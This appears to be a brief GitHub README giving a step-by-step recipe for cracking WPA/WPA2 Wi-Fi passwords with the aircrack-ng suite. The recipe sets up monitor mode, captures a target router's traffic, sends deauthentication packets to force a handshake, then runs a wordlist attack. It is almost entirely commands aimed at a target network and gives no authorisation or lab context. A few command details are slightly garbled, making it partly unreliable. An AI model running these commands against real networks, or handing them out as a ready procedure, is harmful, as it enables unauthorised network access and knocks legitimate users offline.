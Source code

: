 ### HOW TO CRACK WPA/WPA2 WIFI USING AIRCRACK-NG.


## TERMINAL 1


Step 1 :->  ifconfig

Step 2 :->  airmon-ng start wlan0 (the interface you want to put in monitor mode)

Step 3 :->  iwconfig (check that the wifi interface is in monitor mode or not )

Step # :->  aireplay-ng --test wlan0mon (to test that the interface is working fine in result you must 
get the maximum percentage)

Step 4 :->  airodump-ng wlan0mon 

Step 5 :->  airodump-ng -c 0 -w wpa --bssid 00:00:00:00:00 wlan0mon 

(-w WPA = is the file name you want to give to the captured file)

(-c 0= channel on which the target router is)

(--bssid = enter the target router bssid)




## TERMINAL 2


Step 6 :->  aireplay-ng -O 20 -a 00:00:00:00:00:00 wlan0mon (here type bssid of the target router which you got from the above command)

Step 7 :->  once the handshake is captured stop everything with CTRL + C.

Step 8 :->  now we will crack the password from the handshake file using the wordlist

Step 9 :->  aircrack-ng -w (path of the wordlist) filename(wpa.cap as it was defined above)

Step 10 :->  wireshark filename.cap (now scrool down till you find the deauthentication packets in the 
info tab)


### NOW WAIT FOR THE AIRCRACK-NG TO CRACK THE PASSWORD FROM THE GIVEN WORDLIST.